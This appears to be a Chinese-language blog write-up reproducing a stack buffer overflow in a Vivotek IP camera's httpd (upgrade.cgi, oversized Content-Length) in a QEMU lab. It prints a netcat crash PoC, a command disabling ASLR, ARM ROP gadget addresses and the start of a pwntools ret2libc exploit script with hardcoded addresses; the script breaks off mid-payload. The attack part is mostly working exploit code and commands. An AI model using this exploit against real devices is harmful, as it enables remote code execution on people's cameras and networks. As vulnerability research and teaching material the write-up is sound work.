 贴下作者的poc：

```shell
echo -en "POST /cgi-bin/admin/upgrade.cgi HTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | netcat -v 192.168.2.2 80
```

通过对`Content-Length`的交叉引用找到漏洞点

![](./交叉1.png) 

![](./漏洞点1.png) 

这边就是漏洞所在，程序没有对content-length字段进行校验，直接用strcpy把content-length字段的值复制到长度为4的dest数组中。由于没有进行校验，内容长度字段可以任意指定，而dest缓冲区距栈底只有0x38字节，不溢出才怪了。

#### 构造溢出

知道了漏洞点的位置以及形成原因，这边来尝试构造一下。需要注意的是，arm下的函数调用的栈布局和x86下是有很大不一样的，函数的返回地址是专门由寄存器LR保存的，这边content-length的长度超过0x38-4字节就会把LR覆盖成其它内容；有关arm的一些东西打算下期写一篇总结下，通过这篇复现还是学到不少arm常识的。

![](./保护1.png) 

checksec看了下httpd的编译保护来决定通过什么方式利用，这边程序只开启了nx，所以无法直接写shellcode；ret2libc的话是个不错的选择，但前提是vivotek实体机上没有开aslr，否则的话还是要先泄露libc基址，然后再获取一次输入，相对来说会比较烦一点；但是考虑到IoT设备为效率考虑一般是不会开aslr的，所以这边直接通过ret2libc来进行利用。



## 0x04 漏洞利用

#### 利用思路

qemu的arm-debian虚拟机中先关闭aslr：`echo 0 > /proc/sys/kernel/randomize_va_space`

由于没有开启aslr，那么堆栈地址、text&data段地址、libc加载基址都是固定的，并不需要泄露libc基址。

![](./maps1.png)  

libc基址知道，偏移固定，system函数地址相当于也知道，接下来就是参数的传递问题了。

x86下的函数是通过栈来传参，但是在mips和arm中，会优先通过寄存器传参，有点类似x64，arm中的函数参数优先通过r0-r3进行传递；system函数的参数就存放在r0中，而内容长度是存放在栈上的，所以这边需要一条gadget链来让r0指向栈上指定的内容。

这边选取的gadget如下：

```assembly
0x00048784 : pop {r1, pc} 
0x00016aa4 : mov r0, r1 ; pop {r4, r5, pc}
```

为什么不直接选pop {r0,pc}，因为pop {r0,pc}对应的地址0x00033100中有截断符\x00，且libc基址最后也是\x00，所以用pip {r0,pc}会导致输入中断，无法继续利用。所以这边只能通过先将参数地址传给r1，之后再mov到r0中去。

让r0指向栈上指定的内容，之后再执行system函数就能任意代码执行了。

#### 利用脚本

```python
#encoding=utf-8
#!/usr/bin/python

from pwn import *
from os import *
libc_base =  0x76f2d000   # libC 库在内存中的加载地址
stack_base = 0x7effeb60 # 崩溃时 SP 寄存器的地址
libc_elf = ELF('./libuClibc-0.9.33.3-git.so')

payload = (0x38 - 4) * 'a' # padding
payload +=  p32(0x00048784 + libc_base) # gadget1
payload += p32(0x80 + stack_base) # 栈中命令参数地址
payload += p32(0x00016aa4 + libc_base) # gadget2
```